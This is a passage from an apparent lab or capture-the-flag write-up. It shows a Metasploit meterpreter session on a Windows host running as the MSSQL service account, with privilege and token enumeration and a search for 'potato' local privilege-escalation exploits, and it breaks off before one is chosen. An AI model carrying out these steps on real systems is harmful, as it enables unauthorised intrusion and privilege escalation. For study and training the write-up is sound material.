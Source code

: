Now let's run the file and get our meterpreter shell.
````
PS C:\Windows\Temp> ./meterpreter.exe


msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: NT Service\MSSQLSERVER
meterpreter > 
````

Now let's check our privs and tokens:
````
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeChangeNotifyPrivilege
SeIncreaseQuotaPrivilege

meterpreter > use incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
NT Service\MSSQLSERVER

Impersonation Tokens Available
========================================
No tokens available

meterpreter >
````

We don't have any tokens available.

Let's take a look at the available potato exploits that we have:
````

msf5 exploit(multi/handler) > search potato

Matching Modules
================

   #  Name                                             Disclosure Date  Rank    Check  Description
   -  ----                                             ---------------  ----    -----  -----------
   0  exploit/windows/local/ms16_075_reflection        2016-01-16       normal  Yes    Windows Net-NTLMv2 Reflection DCOM/RPC
   1  exploit/windows/local/ms16_075_reflection_juicy  2016-01-16       great   Yes    Windows Net-NTLMv2 Reflection DCOM/RPC (Juicy)


msf5 exploit(multi/handler) > 
````
So now we choose the exploit:

